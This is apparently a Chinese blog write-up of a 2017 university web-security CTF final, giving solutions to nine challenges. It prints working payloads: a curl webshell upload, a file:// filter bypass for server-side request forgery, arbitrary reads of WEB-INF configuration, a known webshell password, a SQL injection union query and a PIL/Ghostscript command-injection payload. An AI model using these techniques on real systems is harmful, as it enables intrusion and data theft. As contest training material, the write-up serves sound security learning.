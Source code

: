 ```yaml
---
title: 2017 全国大学生软件测试大赛web安全赛分区决赛 WriteUp
tags:
  - CTF
  - WriteUp
date: 2017-10-24 13:40:13
---
```


周末去广州水了一波，比赛的时候做出来7道题，赛后补上2、3两题，下面是前9题的WriteUp，期待大佬的第10题WriteUp
<!-- more -->

## 1.host
在burpsuite中修改host为`www.mooctest.net`
![](/img/2017-mooctest-sec-1.png)

## 2.Babyupload
扫描得到upload.php，本地构造upload.html
```php
<html>
<head>
<meta charset="utf-8">
</head>
<body>

<form action="http://114.55.36.69:46012/upload.php" method="post" enctype="multipart/form-data">
    <label for="upfile">文件名：</label>
    <input type="file" name="upfile" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
比赛的时候死活猜不出文件参数名，file、upload、uploadfile都试过，赛后经大佬提醒才知道是`upfile`  
也可以直接用curl上传文件，学到了
```
curl http://114.55.36.69:46012/upload.php -F "upfile=@x.php"
```
上传后菜刀连接，查看web目录下的flag.php拿到flag
![](/img/2017-mooctest-sec-2.png)

## 3.curl
过滤了`file:`后面的`/`，把`/`转成`0x2f`  
```
http://114.55.36.69:46013/index.php?url=file:0x2f0x2f/var/www/html/index.php
```
![](/img/2017-mooctest-sec-3.png)

## 4.war
根据题目提示，下载trick-or-treat.war
![](/img/2017-mooctest-sec-4.png)

## 5.readme2
在js文件里发现
```
http://114.55.36.69:46015/test/show.do?page=help.jsp
```
猜测是任意文件读取，读取javaweb工程的`WEB-INF/web.xml`文件
![](/img/2017-mooctest-sec-5.png)
接着读取`WEB-INF/properties/configInfo.properties`
![](/img/2017-mooctest-sec-6.png)
发现`key.jsp`，读取`key.jsp`
![](/img/2017-mooctest-sec-7.png)

## 6.source ip
去fofa搜标题，试了三四个就试出来了，听说还有发邮件姿势更优雅
![](/img/2017-mooctest-sec-8.png)

## 7.hackedsite
扫描得到
```
http://118.178.18.181:46017/upload/phpspy.php
```
百度搜索phpspy得到密码`angle`，连接大马拿到flag
![](/img/2017-mooctest-sec-9.png)

## 8.babysql3
name字段存在注入，构造
```
keyname=1&name=name` union select 1,2,flag from flag %23
```
![](/img/2017-mooctest-sec-10.png)

## 9.snake
提示了`PIL-RCE`
参考https://github.com/neargle/PIL-RCE-By-GhostButt/blob/master/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability.md
构造poc文件中的代码为
```
(%pipe%cat /var/www/Flask/flag > tmp/fffffff.png)
```
上传得到flag
![](/img/2017-mooctest-sec-11.png)

## 10.thinkphp5
无
